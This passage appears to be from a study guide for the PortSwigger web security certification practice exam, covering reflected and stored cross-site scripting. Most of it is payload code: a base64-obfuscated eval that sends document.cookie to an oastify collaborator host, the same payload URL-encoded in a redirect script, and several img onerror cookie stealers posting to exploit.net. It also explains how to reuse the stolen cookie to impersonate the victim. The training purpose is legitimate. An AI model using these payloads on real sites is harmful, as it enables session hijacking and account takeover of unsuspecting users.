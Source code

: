 ```html
"-eval(atob("ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ=="))-"
```

> Hosting the `IFRAME` on exploit server, give a **error** message refused to connect to target. Instead host the payload on exploit server between `<script>` tags.

```html
<script>
location = "https://TARGET.net/?SearchTerm=%22%2d%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%59%47%68%30%64%48%42%7a%4f%69%38%76%4e%48%6f%30%59%57%64%6c%4d%48%6c%77%59%6a%56%33%62%32%49%35%63%44%59%78%65%58%42%77%64%54%45%7a%64%6e%55%78%62%48%42%69%5a%44%41%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%70%7a%62%32%35%6a%50%57%41%67%4b%79%42%33%61%57%35%6b%62%33%64%62%49%6d%52%76%59%33%56%74%5a%57%35%30%49%6c%31%62%49%6d%4e%76%62%32%74%70%5a%53%4a%64%4b%51%3d%3d%22%29%29%2d%22"
</script>
```

> **NOTE:** `Deliver exploit to victim` few times if the active user do not send HTTP request to collaborator. Replace the current cookie value with the stolen cookie to impersonate the active user and move on to [Stage 2 of the Practice Exam](broken-reference).

[PortSwigger Practice Exam - Stage 1 - Foothold](https://portswigger.net/web-security/certification/takepracticeexam/index.html)

#### Stored XSS

> Use the following sample code to _**identify**_ stored XSS. If stored input is redirecting victim that click on the links, it send request to exploit server.

```HTML
<img src="https://EXPLOIT.net/img">
<script src="https://EXPLOIT.net/script"></script>
<video src="https://EXPLOIT.net/video"></video>
```

> Below log entries show the requests made to the exploit server, and from the logs we can _**identify**_ that `/img` and `/video` of the above tags were allowed on the application and made requests when accessed.

> Cross site Scripting saved in Blog post comment. This Cookie Stealer payload then send the victim session cookie to the exploit server logs.

```html
<img src="1" onerror="window.location='https://exploit.net/cookie='+document.cookie">
```

> Product and Store lookup

```html
?productId=1&storeId="></select><img src=x onerror=this.src='https://exploit.net/?'+document.cookie;>
```

**Stored XSS Blog Post**

> Stored XSS Blog post cookie stealer sending document cookie to exploit server.
